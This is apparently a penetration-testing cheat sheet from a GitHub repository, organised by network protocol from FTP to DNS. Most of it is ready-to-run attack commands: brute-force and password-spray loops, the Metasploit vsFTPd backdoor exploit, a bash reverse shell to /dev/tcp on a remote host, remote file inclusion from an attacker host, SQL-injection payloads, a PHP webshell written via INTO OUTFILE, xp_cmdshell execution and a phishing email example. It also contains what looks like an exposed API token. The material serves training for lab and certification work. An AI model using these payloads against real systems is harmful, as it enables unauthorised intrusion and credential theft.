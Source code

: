 ## **🛡️ Network Protocols**

### Network protocols allow devices to communicate and exchange data over a network. Here’s an expanded explanation of some commonly used protocols in penetration testing:
---

<details>
<summary>### **1.📂 FTP (File Transfer Protocol)**</summary>
 <br>   
- **Port:** 21 (TCP)
- **Function:** FTP is used for transferring files between a client and a server. FTP operates over two channels:
    - **Control channel** (for sending commands)
    - **Data channel** (for transferring the actual files).
- **Common Security Issues:**
    - **Anonymous login:** Some FTP servers are misconfigured to allow anonymous logins, providing unauthorized access to files.
    - **Clear-text credentials:** FTP sends usernames and passwords in clear text, making it vulnerable to sniffing attacks.

---

### **1.1. Penetration Testing on FTP**
FTP enumeration
```bash
ftp <IP>
#login if you have relevant creds or based on nmap scan find out whether this has an anonymous login or not, then login with Anonymous:password

put <file> #uploading file
get <file> #downloading file

#NSE
locate .nse | grep ftp
nmap -p21 --script=<name> <IP>

#bruteforce
hydra -L users.txt -P passwords.txt <IP> ftp #'-L' for usernames list, '-l' for username and vice versa

# Check for vulnerabilities associated with the identified version.
```
![image](https://github.com/user-attachments/assets/70094f78-e27a-446e-a97f-6eb39cff347c)

---
### **1.1.1. Anonymous Login**

When performing penetration testing, an attacker can attempt to log in using **anonymous credentials** if the FTP server allows it. Many misconfigured FTP servers allow anonymous access for easier file sharing, which is a security risk.

**Example FTP login attempt:**

```bash

ftp 192.168.188.131
Name: Anonymous
Password: Anonymous

```
![image](https://github.com/user-attachments/assets/00f9a1e5-3e22-4ad2-86cc-10d990b43574)


If the server allows anonymous login, you will be able to interact with the server and explore its contents.

---

### **1.1.2. Sniffing FTP Credentials (Clear-text Passwords)**

Because FTP doesn’t encrypt traffic, usernames and passwords are sent in clear text. An attacker can use sniffing tools to capture this data, which can be used to compromise the server.

- **Wireshark:** A tool that can capture network packets and allow an attacker to see the FTP credentials.

**How to sniff credentials:**

1. **Start an FTP session**:
    
    ```bash
    
    ftp 192.168.188.131
    
    ```
    
2. **Capture the traffic using Wireshark.**
3. **Follow the TCP stream** to see the credentials:
    - Look for packets containing the string `"PASS"` in Wireshark, which indicates the password being sent.

**Filter clear-text credentials:**

```
frame contains "PASS"
```
![image](https://github.com/user-attachments/assets/84ba48da-79ce-4da8-89d0-0158d5ee9db2)

---

### **1.1.3. FTP Brute-Force Attack (Hydra)**

**Hydra** is a popular tool for performing brute-force attacks against various services, including FTP. It can attempt multiple combinations of usernames and passwords to gain unauthorized access.

**Example of brute-forcing FTP login:**

```bash

hydra -L user -P pass 192.168.188.131 ftp
hydra -L wordlist.txt -P wordlist.txt 192.168.188.131 ftp
use: /usr/share/seclists/Passwords/Leaked-Databases/rockyou.txt

```

- **L** specifies a file with usernames.
- **P** specifies a file with passwords.
- **ftp** is the target protocol.

The **wordlist** file contains a list of possible usernames or passwords to be tried. A strong wordlist (such as **rockyou.txt**) increases the chance of success.
![image](https://github.com/user-attachments/assets/eafa1572-24ac-4ef1-93bd-6734b79ad5e0)

---

### **1.1.4. FTP Remote Shell via Nmap Script**

You can also use **Nmap** to exploit specific vulnerabilities in FTP servers. The `ftp-vsftpd-backdoor.nse` script is designed to exploit a vulnerability in **vsFTPd 2.3.4**, which contains a backdoor.

**Example Nmap command to check for the backdoor:**

```bash

sudo nmap -p 21 192.168.188.131 -sV --script ftp-vsftpd-backdoor.nse

```

This will test if the FTP server is vulnerable to the **vsFTPd backdoor**. If the server is vulnerable, you may be able to execute commands remotely.
![image](https://github.com/user-attachments/assets/48113953-c487-4bfa-bf04-49b376c60901)

---

### **1.1.5. Exploiting FTP Vulnerabilities with Metasploit**

Metasploit is another powerful tool used for exploiting vulnerabilities in systems. If the FTP server is running a vulnerable version of vsFTPd (e.g., **vsFTPd 2.3.4**), Metasploit can be used to exploit it.

**Steps to exploit vsFTPd 2.3.4 with Metasploit:**

1. **Search for the exploit:**
    
    ```bash
    
    msfconsole
    search vsftpd 2.3.4
    
    ```
    
2. **Use the exploit:**
    
    ```bash
  
    use exploit/unix/ftp/vsftpd_234_backdoor
    set RHOST 192.168.188.131
    exploit
    
    ```
    
3. **Interact with the remote shell:**
    
    ```bash
   
    python -c 'import pty; pty.spawn("/bin/bash")'
    
    ```
    

By exploiting this vulnerability, you can get access to the **root** account on the target machine.
![image](https://github.com/user-attachments/assets/2c266ec1-e757-4442-970e-cc713e589347)

</details> 

### **2.📦 NFS (Network File System)**
<details>
<summary>📝 Click to expand NFS Information</summary>
 <br>
NFS allows a system to share its files with other systems over a network. It enables the mounting of remote file systems and interaction with them as if they were local.

**Example Nmap command to scan for NFS services:**

```bash

nmap -p2049 -sV 192.168.188.131

```

If NFS is exposed publicly, it can be mounted to the local machine and files can be accessed.

**Mounting NFS share:**

```bash

sudo mount 192.168.188.131:/ /home/kali/Downloads/nfs -nolock

```

This allows you to access shared files from the remote NFS server.
![image](https://github.com/user-attachments/assets/34ad4003-778a-4011-b5ee-1c63e17adf4a)

**Troubleshooting NFS Mount Permission Issues:**

If you encounter **Permission Denied**, ensure that you have the correct NFS version and permissions configured.
https://blog.christophetd.fr/write-up-vulnix/
**To use NFSv3 (if needed):**

```bash

sudo mount -t nfs -o vers=3 192.168.188.137:/home/vulnix /home/kali/Downloads/nfs/home/vulnix -nolock

```
Let’s take a closer look at the permissions. 
```bash
ls -ld vulnix
```
If only Particuler user or group have access to the Path:
create a user group:
```jsx
sudo groupadd --gid 2008 vulnix_group
sudo useradd --uid 2008 --groups vulnix_group vulnix
sudo -u vulnix ls -l vulnix
```

![image](https://github.com/user-attachments/assets/c5978efc-c909-48b1-8165-5705d484ef0a)


DEBUG

```jsx
id vulnix
```

Ensure it outputs:

```jsx
uid=2008(vulnix) gid=2008(vulnix_group) groups=2008(vulnix_group)
```

If the UID or GID is incorrect, you must delete and recreate the user with:

```jsx
sudo userdel vulnix
sudo groupdel vulnix_group
sudo groupadd --gid 2008 vulnix_group
sudo useradd --uid 2008 --gid 2008 --groups vulnix_group vulnix
```

Now, try accessing the directory as `vulnix_user`:
![image](https://github.com/user-attachments/assets/90546368-1291-4e7a-b7c9-52a148eef779)

</details>

### **3.🗂️ SMB (Server Message Block)**
<details>
<summary>📝 Click to expand  SMB Information</summary>
 <br>
SMB is a protocol used for file and printer sharing, as well as inter-process communication between computers.

**Example Nmap command to scan for SMB services:**

```bash

sudo nmap -p 445 -sV -sC 192.168.188.131
locate .nse | grep smb
nmap -p445 --script="name" $IP 

```
![image](https://github.com/user-attachments/assets/5f4b1ffc-baab-4de5-9c0f-dcb520401b1c)


**Enumerating SMB Shares:**

```bash
#In windows we can view like this
net view \\<computername/IP> /all

enum4linux -L -S 192.168.188.131
smbclient -L 192.168.188.131 -N
smbmap -H 192.168.188.131
#If you got user name and password:
smbmap -H 192.168.188.131 -u "msfadmin" -p "msfadmin" -r tmp -A '.*' -q

```

**Brute-forcing SMB credentials:**

```bash

hydra -l admin -P /home/kali/pass.txt smb://192.168.188.131
or
netexec smb 192.168.188.131 -u admin -p /home/kali/pass.txt --continue-on-success

```
![image](https://github.com/user-attachments/assets/c592d34d-613f-49b5-9a92-c3b8c951958a)
```bash
# Smbclient
smbclient -L //IP #or try with 4 /'s
smbclient //server/share
smbclient //server/share -U <username>
smbclient //server/share -U domain/username

#SMBmap
smbmap -H <target_ip>
smbmap -H <target_ip> -u <username> -p <password>
smbmap -H <target_ip> -u <username> -p <password> -d <domain>
smbmap -H <target_ip> -u <username> -p <password> -r <share_name>

#Within SMB session
put <file> #to upload file
get <file> #to download file
```
Downloading shares is easy—if the folder consists of several files, they will all be downloaded by this.
```bash
mask ""
recurse ON
prompt OFF
mget *
```
**Exploit SMB:**
Try to connect with no pass

```jsx
smbclient --no-pass //192.168.188.131/tmp
```

login as Anonymous:

![image](https://github.com/user-attachments/assets/1e13a6c6-3293-4bf3-a01e-bb3303698da0)


since we have smb access i tried:
```jsx
put rev.sh
posix 
chmod +x rev.sh
chown Anonymous rev.sh
open rev.sh
```
But didnt work:
Failed to open file /rev.sh. NT_STATUS_ACCESS_DENIED
![image](https://github.com/user-attachments/assets/4a71afb8-42f0-471e-bebb-bc7bc0a83107)

SMB Version Samba 3.0.20 found, search for exploits:
```bash
searchsploit samba 3.0.20  
locate multiple/remote/10095.txt
cat /usr/share/exploitdb/exploits/multiple/remote/10095.txt
```
![image](https://github.com/user-attachments/assets/6603e3bd-03ea-4424-8d4c-f3aac3acdd52)

</details>

### **4.🔌 RPC (Remote Procedure Call)**
<details>
<summary>📝 Click to expand RPC Information</summary>
 <br>
RPC allows a program on one computer to execute a procedure on another computer.

**Enumerating with RPCClient:**
**Connect to RPC server with an anonymous bind:**
```bash

$ rpcclient -U "" -N <target>
srvinfo
enumdomusers #Enumerate Domain Users
enumpriv #like "whoami /priv"
queryuser <user> #detailed user info
getuserdompwinfo <RID> #password policy, get user-RID from previous command
getdompwinfo #Get Domain Password Info
lookupnames <user> #SID of specified user
createdomuser <username> #Creating a user
deletedomuser <username>
enumdomains
enumdomgroups # Enumerate Domain Groups
querygroup <group-RID> #get rid from previous command
querydispinfo #description of all users
querygroupmem 0x200 #Query Group Membership
netshareenum #Share enumeration, this only comesup if the current user we're logged in has permissions
netshareenumall
lsaenumsid #SID of all users

```

This will provide information about the target system and its users.
![image](https://github.com/user-attachments/assets/1a5d498c-8a6d-4a91-b017-69b62a6cb5e2)

“RID are relative identifier to identify an object which will be in hexa decimal format”

![image](https://github.com/user-attachments/assets/d3e9af35-e0b2-4c72-b893-e7a24141b82a)

**Password Spray Attack**

The following script will iterate over usernames and passwords and try to execute "getusername". Watch out for "ACCOUNT_LOCKED" error messages.

```
TARGET=10.10.10.10;
while read username; do
  while read password; do
    echo -n "[*] user: $username" && rpcclient -U "$username%$password" -c "getusername;quit" $TARGET | grep -v "NT_STATUS_ACCESS_DENIED";
  done < /path/to/passwords.txt
done < /path/to/usernames.txt
```

If a password is found, use it with smbclient to explore the SYSVOL:

```
$ smbclient -U "username%password" \\\\<target>\\SYSVOL
Domain=[HOME] OS=[Windows Server 2008]
...
smb: \> ls
...
```
---

### **5.📡 SNMP (Simple Network Management Protocol)**

SNMP is used to manage and monitor network devices. It can be exploited if the community string is weak or known (like **public** or **private**).
![image](https://github.com/user-attachments/assets/c4d02453-3331-4739-bf58-f38aea7a6133)

**Example SNMP enumeration with `snmpcheck`:**

```bash

snmpcheck -c public -h 192.168.188.131
snmpcheck -t <IP> -c public #Better version than snmpwalk as it displays more user friendly

snmpwalk -c public -v1 -t 10 <IP> #Displays entire MIB tree, MIB Means Management Information Base
snmpwalk -c public -v1 <IP> 1.3.6.1.4.1.77.1.2.25 #Windows User enumeration
snmpwalk -c public -v1 <IP> 1.3.6.1.2.1.25.4.2.1.2 #Windows Processes enumeration
snmpwalk -c public -v1 <IP> 1.3.6.1.2.1.25.6.3.1.2 #Installed software enumeraion
snmpwalk -c public -v1 <IP> 1.3.6.1.2.1.6.13.1.3 #Opened TCP Ports

#Windows MIB values
1.3.6.1.2.1.25.1.6.0 - System Processes
1.3.6.1.2.1.25.4.2.1.2 - Running Programs
1.3.6.1.2.1.25.4.2.1.4 - Processes Path
1.3.6.1.2.1.25.2.3.1.4 - Storage Units
1.3.6.1.2.1.25.6.3.1.2 - Software Name
1.3.6.1.4.1.77.1.2.25 - User Accounts
1.3.6.1.2.1.6.13.1.3 - TCP Local Ports

```
if community string was public try to connect with snmpcheck
![image](https://github.com/user-attachments/assets/1eef5dc1-7a3e-40e9-9b37-ce2bfea237d9)

try to use snmp walk
![image](https://github.com/user-attachments/assets/3a136368-a50b-4fb4-a7dd-63d72ed69358)

**Brute-forcing SNMP community strings:**

```bash

onesixtyone -c /usr/share/seclists/Discovery/SNMP/snmp.txt 192.168.146.156
or
snmpwalk -v1 -c public 192.168.146.156 NET-SNMP-EXTEND-MIB :: nsExtendObjects

```
https://hacktricks.boitatech.com.br/pentesting/pentesting-snmp/snmp-rce

</details>

### **6.📚 LDAP (Lightweight Directory Access Protocol)**
<details>
<summary>📝 Click to expand LDAP Information</summary>
 <br>
LDAP is a protocol used to access and maintain directory information. It is commonly used for managing user information and authentication.

**Enumerating LDAP:**

```bash

ldapsearch -x -H ldap://<IP> -b "dc=example,dc=com"
ldapsearch -x -H ldap://<IP>:<port> # try on both ldap and ldaps, this is first command to run if you dont have any valid credentials.

ldapsearch -x -H ldap://<IP> -D '' -w '' -b "DC=<1_SUBDOMAIN>,DC=<TLD>"
ldapsearch -x -H ldap://<IP> -D '<DOMAIN>\<username>' -w '<password>' -b "DC=<1_SUBDOMAIN>,DC=<TLD>"
#CN name describes the info we're collecting
ldapsearch -x -H ldap://<IP> -D '<DOMAIN>\<username>' -w '<password>' -b "CN=Users,DC=<1_SUBDOMAIN>,DC=<TLD>"
ldapsearch -x -H ldap://<IP> -D '<DOMAIN>\<username>' -w '<password>' -b "CN=Computers,DC=<1_SUBDOMAIN>,DC=<TLD>"
ldapsearch -x -H ldap://<IP> -D '<DOMAIN>\<username>' -w '<password>' -b "CN=Domain Admins,CN=Users,DC=<1_SUBDOMAIN>,DC=<TLD>"
ldapsearch -x -H ldap://<IP> -D '<DOMAIN>\<username>' -w '<password>' -b "CN=Domain Users,CN=Users,DC=<1_SUBDOMAIN>,DC=<TLD>"
ldapsearch -x -H ldap://<IP> -D '<DOMAIN>\<username>' -w '<password>' -b "CN=Enterprise Admins,CN=Users,DC=<1_SUBDOMAIN>,DC=<TLD>"
ldapsearch -x -H ldap://<IP> -D '<DOMAIN>\<username>' -w '<password>' -b "CN=Administrators,CN=Builtin,DC=<1_SUBDOMAIN>,DC=<TLD>"
ldapsearch -x -H ldap://<IP> -D '<DOMAIN>\<username>' -w '<password>' -b "CN=Remote Desktop Users,CN=Builtin,DC=<1_SUBDOMAIN>,DC=<TLD>"

#windapsearch.py
#for computers
python3 windapsearch.py --dc-ip <IP address> -u <username> -p <password> --computers

#for groups
python3 windapsearch.py --dc-ip <IP address> -u <username> -p <password> --groups

#for users
python3 windapsearch.py --dc-ip <IP address> -u <username> -p <password> --da

#for privileged users
python3 windapsearch.py --dc-ip <IP address> -u <username> -p <password> --privileged-users

```

You can also enumerate users and gather information from LDAP directories.

**Using Metasploit for LDAP enumeration:**

```bash

msfconsole
use auxiliary/gather/ldap_query
set RHOSTS <IP>
set BASE "dc=example,dc=com"
run

```

</details>

### **7. SMTP (Simple Mail Transfer Protocol)**
<details>
 <summary>📝 Click to expand SMTP Information</summary>
 <br>
SMTP is used for sending and receiving emails. It can be exploited in cases of misconfiguration, such as **open relay** or **user enumeration**.

**Enumerating SMTP:**

```bash
nc -nv <IP> 25 #Version Detection
smtp-user-enum -M VRFY -U username.txt -t <IP> # -M means mode; it can be RCPT, VRFY, EXPN

#Sending email with valid credentials, the below is an example of Phishing mail attack
sudo swaks -t daniela@beyond.com -t marcus@beyond.com --from john@beyond.com --attach @config.Library-ms --server 192.168.50.242 --body @body.txt --header "Subject: Staging Script" --suppress-data -ap

```

This can be used to find valid email addresses on the target system.

**Exploiting Open Relay (sending emails):**

```bash

telnet <IP> 25
HELO attacker.com
MAIL FROM: attacker@attacker.com
RCPT TO: victim@victim.com
DATA
Subject: Test
This is a test email.
.

```
</details>

### **8. POP3**
<details>
<summary>📝 Click to expand POP3 Information</summary>
 <br>
**Post Office Protocol** \(**POP**\) is a type of computer networking and Internet standard **protocol** that extracts and retrieves email from a remote mail server for access by the host machine. **POP** is an application layer **protocol** in the OSI model that provides end users the ability to fetch and receive email \(from [here](https://www.techopedia.com/definition/5383/post-office-protocol-pop)\).

The POP clients generally connect, retrieve all messages, store them on the client system, and delete them from the server. There are 3 versions of POP, but POP3 is the most used one.

**Default ports:** 110, 995\(ssl\)

```text
PORT    STATE SERVICE
110/tcp open  pop3
```

## Enumeration

### Banner Grabbing

```bash
nc -nv <IP> 110
openssl s_client -connect <IP>:995 -crlf -quiet
```

## Manual

You can use the command `CAPA` to obtain the capabilities of the POP3 server.

## Automated

```bash
nmap --script "pop3-capabilities or pop3-ntlm-info" -sV -port <PORT> <IP> #All are default scripts
```

The `pop3-ntlm-info` plugin will return some "**sensitive**" data \(Windows versions\).

### [POP3 bruteforce](../brute-force.md#pop)

## POP syntax

```bash
POP commands:
  USER uid           Log in as "uid"
  PASS password      Substitue "password" for your actual password
  STAT               List number of messages, total mailbox size
  LIST               List messages and sizes
  RETR n             Show message n
  DELE n             Mark message n for deletion
  RSET               Undo any changes
  QUIT               Logout (expunges messages if no RSET)
  TOP msg n          Show first n lines of message number msg
  CAPA               Get capabilities
```

From [here](http://sunnyoasis.com/services/emailviatelnet.html)

Example:

```text
root@kali:~# telnet $ip 110
 +OK beta POP3 server (JAMES POP3 Server 2.3.2) ready 
 USER billydean    
 +OK
 PASS password
 +OK Welcome billydean

 list

 +OK 2 1807
 1 786
 2 1021

 retr 1

 +OK Message follows
 From: jamesbrown@motown.com
 Dear Billy Dean,

 Here is your login for remote desktop ... try not to forget it this time!
 username: billydean
 password: PA$$W0RD!Z
```

```

### Identifying Issues

- Clear-text authentication (no SSL/TLS).
- Weak credentials (try common usernames/passwords).
- Default or anonymous access.

### Exploiting

```bash

# Manual login attempt
telnet <IP> 110
USER <username>
PASS <password>

# Hydra brute force
hydra -l <username> -P /usr/share/wordlists/rockyou.txt -s 110 -vV <IP> pop3

```

### References

- HackTricks - POP3
- POP3 RFC 1939
</details>

### **9.🔒 SSH**
<details>
<summary>📝 Click to expand SSH Information</summary>
 <br>
**Secure Shell (SSH)** is a cryptographic network protocol designed for secure communication over an unsecured network. It is primarily used for remote login and command-line execution, replacing older, less secure protocols like Telnet and rlogin
https://www.ssh.com/academy/ssh/public-key-authentication

## SSH enumeration

```
#Login
ssh uname@IP #enter the password in the prompt

#id_rsa or id_ecdsa file
chmod 600 id_rsa/id_ecdsa
ssh uname@IP -i id_rsa/id_ecdsa #if it still asks for the password, crack it using John

#cracking id_rsa or id_ecdsa
ssh2john id_ecdsa(or)id_rsa > hash
john --wordlist=/home/sathvik/Wordlists/rockyou.txt hash

#bruteforce
hydra -l uname -P passwords.txt <IP> ssh #'-L' for usernames list, '-l' for username and vice versa

# Check for vulnerabilities associated with the identified version.
```
Use full commands:
- `t rsa`: Specifies the RSA algorithm.
- `b 4096`: Specifies the key length (4096 bits is recommended).
- You can also use `b 2048` for a shorter key length.
- **Follow the prompts:**
- Enter the path to save the key (default is `~/.ssh/id_rsa`).
- Enter a passphrase for the private key (optional but recommended for security).
- You'll have a public key (`~/.ssh/id_rsa.pub`) and a private key (`~/.ssh/id_rsa`).

**2. Copy the Public Key to the Server:**

Use the ssh-copy-id command.

Code

```jsx
    ssh-copy-id -i ~/.ssh/id_rsa.pub user@server_ip_or_hostname
```

- Replace `user` with your username on the server.
- Replace `server_ip_or_hostname` with the server's IP address or hostname.
- **Alternatively, manually copy the public key:**
- Read the contents of `~/.ssh/id_rsa.pub`.
- SSH into the server.
- Create the directory `~/.ssh` if it doesn't exist.
- Create or edit the file `~/.ssh/authorized_keys`.
- Append the contents of your public key to the `authorized_keys` file.
- Change the permissions of `~/.ssh` to `700` and `authorized_keys` to `600`.

Code

```jsx
    mkdir -p ~/.ssh    chmod 700 ~/.ssh   
    touch ~/.ssh/authorized_keys    
    chmod 600 ~/.ssh/authorized_keys    
    cat ~/.ssh/id_rsa.pub >> ~/.ssh/authorized_keys
```

**3. Log in with the Private Key:**

- **Open your terminal**: on your local machine.
- Use the `ssh` command with the `i` option:
  ```jsx
  ssh -i ~/.ssh/id_rsa user@server_ip_or_hostname
  ssh -oHostKeyAlgorithms=+ssh-rsa TCM@10.10.81.58 -p22
  ```
  ![image](https://github.com/user-attachments/assets/bdb18c28-6296-4013-bd28-4d6edafd81e9)
</details>
  
### **10. HTTP/S enumeration**
<details>
<summary>📝 Click to expand HTTP Information</summary>
 <br>
- View the source code and identify any hidden content. If an image looks suspicious, download it and try to find hidden data in it.
- Identify the version or CMS and check for active exploits. This can be done using Nmap and Wappalyzer.
- check /robots.txt folder
- Look for the hostname and add the relevant one to `/etc/hosts` file.
- Directory and file discovery - Obtain any hidden files that may contain juicy information

```
dirbuster
gobuster dir -u http://example.com -w /path/to/wordlist.txt
python3 dirsearch.py -u http://example.com -w /path/to/wordlist.txt
```

- Vulnerability Scanning using nikto: `nikto -h <url>`
- `HTTPS`SSL certificate inspection, may reveal information like subdomains, usernames…etc
- Default credentials: Identify the CMS or service, check for default credentials, and test them out.
- Bruteforce

```
hydra -L users.txt -P password.txt <IP or domain> http-{post/get}-form "/path:name=^USER^&password=^PASS^&enter=Sign+in:Login name or password is incorrect" -V
# Use https-post-form mode for https, post, or get, which can be obtained from Burpsuite. Also, capture the response for detailed information.

#Bruteforce can also be done by Burpsuite but it's slow, prefer Hydra!
```

- if `cgi-bin` is present, then do further fuzzing and obtain files like .sh or .pl
- Check if other services like FTP/SMB or any other that has upload privileges are getting reflected on the web.
- API - Fuzz further, and it can reveal some sensitive information

```
#identifying endpoints using gobuster
gobuster dir -u http://192.168.50.16:5002 -w /usr/share/wordlists/dirb/big.txt -p pattern #pattern can be like {GOBUSTER}/v1 here v1 is just for example, it can be anything

#obtaining info using curl
curl -i http://192.168.50.16:5002/users/v1
```

- If there is any Input field check for **Remote Code execution** or **SQL Injection**
- Check the URL, whether we can leverage **Local or Remote File Inclusion**.
- Also check if there’s any file upload utility(also obtain the location it’s getting reflected)

**Wordpress**

```
# basic usage
wpscan --url "target" --verbose

# enumerate vulnerable plugins, users, vulnerable themes, timthumbs
wpscan --url "target" --enumerate vp,u,vt,tt --follow-redirection --verbose --log target.log

# Add Wpscan API to get the details of vulnerabilties.
wpscan --url http://alvida-eatery.org/ --api-token NjnoSGZkuWDve0fDjmmnUNb1ZnkRw6J2J1FvBsVLPkA

#Accessing Wordpress shell
http://10.10.67.245/retro/wp-admin/theme-editor.php?file=404.php&theme=90s-retro

http://10.10.67.245/retro/wp-content/themes/90s-retro/404.php
```

**Drupal**

```
droopescan scan drupal -u http://site
```

**Joomla**

```
droopescan scan joomla --url http://site
sudo python3 joomla-brute.py -u http://site/ -w passwords.txt -usr username #https://github.com/ajnik/joomla-bruteforce
```
### **Web Attacks**

💡 Cross-platform PHP revershell: [

https://github.com/ivan-sincek/php-reverse-shell/blob/master/src/reverse/php_reverse_shell.php](https://github.com/ivan-sincek/php-reverse-shell/blob/master/src/reverse/php_reverse_shell.php](https://github.com/ivan-sincek/php-reverse-shell/blob/master/src/reverse/php_reverse_shell.php))

**Directory Traversal**

```
cat /etc/passwd #displaying content through absolute path
cat ../../../etc/passwd #relative path

# if the pwd is /var/log/ then in order to view the /etc/passwd it will be like this
cat ../../etc/passwd

#In web int should be exploited like this, find a parameters and test it out
http://mountaindesserts.com/meteor/index.php?page=../../../../../../../../../etc/passwd
#check for id_rsa, id_ecdsa
#If the output is not getting formatted properly then,
curl http://mountaindesserts.com/meteor/index.php?page=../../../../../../../../../etc/passwd

#For windows
http://192.168.221.193:3000/public/plugins/alertlist/../../../../../../../../Users/install.txt #no need to provide drive
```

- URL Encoding

```
#Sometimes it doesn't show if we try path, then we need to encode them
curl http://192.168.50.16/cgi-bin/%2e%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd
```

- Wordpress
    - Simple exploit: https://github.com/leonjza/wordpress-shell

**Local File Inclusion**

- The main difference between Directory traversal and this attack is that we can execute commands remotely here.

```
#At first we need
http://192.168.45.125/index.php?page=../../../../../../../../../var/log/apache2/access.log&cmd=whoami #we're passing a command here

#Reverse shells
bash -c "bash -i >& /dev/tcp/192.168.119.3/4444 0>&1"#We can simply pass a reverse shell to the cmd parameter and obtain reverse-shell
bash%20-c%20%22bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F192.168.119.3%2F4444%200%3E%261%22 #encoded version of above reverse-shell

#PHP wrapper
curl "http://mountaindesserts.com/meteor/index.php?page=data://text/plain,<?php%20echo%20system('uname%20-a');?>"
curl http://mountaindesserts.com/meteor/index.php?page=php://filter/convert.base64-encode/resource=/var/www/html/backup.php
```

- Remote file inclusion

```
1. Obtain a php shell
2. host a file server
3.
http://mountaindesserts.com/meteor/index.php?page=http://attacker-ip/simple-backdoor.php&cmd=ls
we can also host a php reverseshell and obtain shell.
```

**SQL Injection**

```
admin' or '1'='1
' or '1'='1
" or "1"="1
" or "1"="1"--
" or "1"="1"/*
" or "1"="1"#
" or 1=1
" or 1=1 --
" or 1=1 -
" or 1=1--
" or 1=1/*
" or 1=1#
" or 1=1-
") or "1"="1
") or "1"="1"--
") or "1"="1"/*
") or "1"="1"#
") or ("1"="1
") or ("1"="1"--
") or ("1"="1"/*
") or ("1"="1"#
) or '1`='1-
```

- Blind SQL Injection - This can be identified by Time-based SQLI

```
#Application takes some time to reload, here it is 3 seconds
http://192.168.50.16/blindsqli.php?user=offsec' AND IF (1=1, sleep(3),'false') -- //
```

- Manual Code Execution

```
kali> impacket-mssqlclient Administrator:Lab123@192.168.50.18 -windows-auth #To login
EXECUTE sp_configure 'show advanced options', 1;
RECONFIGURE;
EXECUTE sp_configure 'xp_cmdshell', 1;
RECONFIGURE;
#Now we can run commands
EXECUTE xp_cmdshell 'whoami';

#Sometimes we may not have direct access to convert it to RCE from the web, then follow the below steps
' UNION SELECT "<?php system($_GET['cmd']);?>", null, null, null, null INTO OUTFILE "/var/www/html/tmp/webshell.php" -- // #Writing into a new file
#Now we can exploit it
http://192.168.45.285/tmp/webshell.php?cmd=id #Command execution
```

- SQLMap - Automated Code Execution

```
sqlmap -u http://192.168.50.19/blindsqli.php?user=1 -p user #Testing on parameter names "user", we'll get confirmation
sqlmap -u http://192.168.50.19/blindsqli.php?user=1 -p user --dump #Dumping database

#OS Shell
#  Obtain the Post request from Burp suite and save it to post.txt
sqlmap -r post.txt -p item  --os-shell  --web-root "/var/www/html/tmp" #/var/www/html/tmp is the writable folder on target, hence we're writing there

```
</details>

### **11. DNS enumeration**
<details>
<summary>📝 Click to expand DNS Information</summary>
 <br>
- Better use `Seclists` wordlists for better enumeration. https://github.com/danielmiessler/SecLists/tree/master/Discovery/DNS

```
host www.megacorpone.com
host -t mx megacorpone.com
host -t txt megacorpone.com

for ip in $(cat list.txt); do host $ip.megacorpone.com; done #DNS Bruteforce
for ip in $(seq 200 254); do host 51.222.169.$ip; done | grep -v "not found" #bash bruteforcer to find domain name

## DNS Recon
dnsrecon -d megacorpone.com -t std #standard recon
dnsrecon -d megacorpone.com -D ~/list.txt -t brt #bruteforce, hence we provided list

# DNS Bruteforce using dnsenum
dnsenum megacorpone.com

## NSlookup, a gold mine
nslookup mail.megacorptwo.com
nslookup -type=TXT info.megacorptwo.com 192.168.50.151 #We are querying the information from a specific IP, here it is 192.168.50.151. This can be very useful
```
</details>
